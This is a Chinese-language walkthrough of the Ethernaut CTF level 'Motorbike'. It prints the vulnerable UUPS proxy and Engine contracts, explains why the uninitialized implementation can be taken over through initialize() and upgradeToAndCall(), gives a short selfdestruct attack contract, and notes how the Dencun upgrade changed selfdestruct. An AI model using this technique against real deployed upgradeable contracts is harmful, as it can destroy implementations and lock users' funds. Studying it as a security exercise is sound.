

## Level_25.Motorbike

要求：

> 销毁引擎；

合约：

```solidity
// SPDX-License-Identifier: MIT

pragma solidity <0.7.0;

import "openzeppelin-contracts-06/utils/Address.sol";
import "openzeppelin-contracts-06/proxy/Initializable.sol";

contract Motorbike {
    // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    struct AddressSlot {
        address value;
    }

    // Initializes the upgradeable proxy with an initial implementation specified by `_logic`.
    constructor(address _logic) public {
        require(Address.isContract(_logic), "ERC1967: new implementation is not a contract");
        _getAddressSlot(_IMPLEMENTATION_SLOT).value = _logic;
        (bool success,) = _logic.delegatecall(abi.encodeWithSignature("initialize()"));
        require(success, "Call failed");
    }

    // Delegates the current call to `implementation`.
    function _delegate(address implementation) internal virtual {
        // solhint-disable-next-line no-inline-assembly
        assembly {
            calldatacopy(0, 0, calldatasize())
            let result := delegatecall(gas(), implementation, 0, calldatasize(), 0, 0)
            returndatacopy(0, 0, returndatasize())
            switch result
            case 0 { revert(0, returndatasize()) }
            default { return(0, returndatasize()) }
        }
    }

    // Fallback function that delegates calls to the address returned by `_implementation()`.
    // Will run if no other function in the contract matches the call data
    fallback() external payable virtual {
        _delegate(_getAddressSlot(_IMPLEMENTATION_SLOT).value);
    }

    // Returns an `AddressSlot` with member `value` located at `slot`.
    function _getAddressSlot(bytes32 slot) internal pure returns (AddressSlot storage r) {
        assembly {
            r_slot := slot
        }
    }
}

contract Engine is Initializable {
    // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    address public upgrader;
    uint256 public horsePower;

    struct AddressSlot {
        address value;
    }

    function initialize() external initializer {
        horsePower = 1000;
        upgrader = msg.sender;
    }

    // Upgrade the implementation of the proxy to `newImplementation`
    // subsequently execute the function call
    function upgradeToAndCall(address newImplementation, bytes memory data) external payable {
        _authorizeUpgrade();
        _upgradeToAndCall(newImplementation, data);
    }

    // Restrict to upgrader role
    function _authorizeUpgrade() internal view {
        require(msg.sender == upgrader, "Can't upgrade");
    }

    // Perform implementation upgrade with security checks for UUPS proxies, and additional setup call.
    function _upgradeToAndCall(address newImplementation, bytes memory data) internal {
        // Initial upgrade and setup call
        _setImplementation(newImplementation);
        if (data.length > 0) {
            (bool success,) = newImplementation.delegatecall(data);
            require(success, "Call failed");
        }
    }

    // Stores a new address in the EIP1967 implementation slot.
    function _setImplementation(address newImplementation) private {
        require(Address.isContract(newImplementation), "ERC1967: new implementation is not a contract");

        AddressSlot storage r;
        assembly {
            r_slot := _IMPLEMENTATION_SLOT
        }
        r.value = newImplementation;
    }
}
```

### 分析

该题目使用了代理模式的EIP-1967，在代理合约的指定slot存放逻辑合约、Beacon合约等，导致了slot的碰撞几乎不可能；


所以` Motorbike `合约很难下手（没啥方法来改动` _IMPLEMENTATION_SLOT `）；

接下来看看` Engine `合约，其继承了` Initializable `，大概意思就是有两个bool类型的状态变量确保` initialize()-设置马力和升级者 `只能执行一次；

但是这边有slot碰撞：

` Engine `有两个slot，slot0存放address类型，slot1存放uint256类型；

` Initializable `有一个slot，slot0中存放两个bool类型，均是检测是否已经初始化；

也就是说，要是` Engine `的slot0中的最右边两个比特均为0，那就可以利用我们自己的钱包再初始化一次；



果然是0，那后面就简单了，调用` initialize() `将我们自己设置为升级者，然后调用` upgradeToAndCall() `替换我们自己实现的销毁合约并执行即可；


### 攻击

```solidity
// SPDX-License-Identifier: MIT
pragma solidity <0.7.0;

contract Exp {
    function Attack() public {
        selfdestruct(payable(msg.sender));
    }
    // 注释即可，用来算calldata的
    // 0xf28adc4d
    function getHash() public pure returns (bytes memory){
        return abi.encodeWithSignature("Attack()");
    }
}
```

首先初始化：


销毁合约：


但此时提交会失败，查看交易记录却显示调用了销毁，但是合约还在：


经过[搜索](https://github.com/Ching367436/ethernaut-motorbike-solution-after-decun-upgrade/)，是以太坊经过Dencun升级后，调用` selfdestruct() `仅会转走ETH，不会销毁合约，**除非合约的创建和销毁在同一条交易记录中**；

解决的方法总结下来就是通过计算instance合约创建的地址，然后通过自动化题目创建、代理合约创建、攻击、销毁、提交题目一条龙（由于这并不是本题的主要目的，且之前题目有过如何计算合约创建地址，就不演示了）；

